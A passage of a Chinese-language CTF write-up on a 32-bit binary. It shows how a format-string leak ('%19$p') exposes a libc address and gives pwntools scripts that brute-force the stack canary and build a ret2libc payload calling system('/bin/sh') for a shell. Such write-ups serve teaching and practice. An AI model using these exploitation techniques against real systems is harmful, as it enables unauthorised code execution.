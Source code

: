 7. 总结一下，程序最开始需要输入 Y，然后跳转到有漏洞的函数 sub_80487FA 中，之后可以获取输入 name，这里的输入的 name 在下一条 [*] Welcome to the game 之后会被打印出来，并且打印的方式存在格式化字符串漏洞。所以可以通过调试，输入 %p 来获取栈上的指定的 libc 地址内容，泄露 libc 从而获取 libc 基地址。

8. 由于每次子程序崩溃后都会从头开始，都需要再输入 Y 和 name，那么直接将该段泄露代码放在爆破循环中即可：

```
canary = '\x00'
for i in xrange(3):
    for j in xrange(256):
        io.sendline('Y')
        io.recv()
        io.sendline('%19$p') #泄露栈上的libc地址
        io.recvuntil('game ')
        leak_libc_addr = int(io.recv(10), 16)
 
        io.recv()
        payload = 'A'*16 #构造payload爆破canary
        payload += canary
        payload += chr(j)
        io.send(payload)
        io.recv()
        if ("" != io.recv(timeout = 0.1)): 
        #如果canary的字节位爆破正确，应该输出两个"[*] Do you love me?"，因此通过第二个recv的结果判断是否成功
            canary += chr(j)
            log.info('At round %d find canary byte %#x' %(i, j))
            break

```

9. 爆破结束后，得到 libc 基地址，canary，以及一个可以利用的栈溢出，程序循环从最开始。那么利用栈溢出返回到 system 函数，由于 32 位程序，栈传参，那么可以提前布置好栈，使得 system 函数直接从我们布置的栈上读取 binsh 字符串，直接 getshell。

```
#注释头
 
log.info('Canary is %#x' %(u32(canary)))
system_addr = leak_libc_addr - 0x2ed3b + 0x3b060
binsh_addr = leak_libc_addr - 0x2ed3b + 0x15fa0f
log.info('System_address:%#x,binsh_addr:%#x'%(system_addr,binsh_addr))
 
payload = ''
payload += 'A'*16
payload += canary
payload += 'B'*12
payload += p32(system_addr)
payload += 'CCCC'
payload += p32(binsh_addr)
 
io.sendline('Y') #[*] Do you love me?
io.recv()
io.sendline('1') #[*] Input Your name please: 随便一个输入
io.recv()
io.send(payload) #[*] Input Your Id: 漏洞产生点
io.interactive()

```
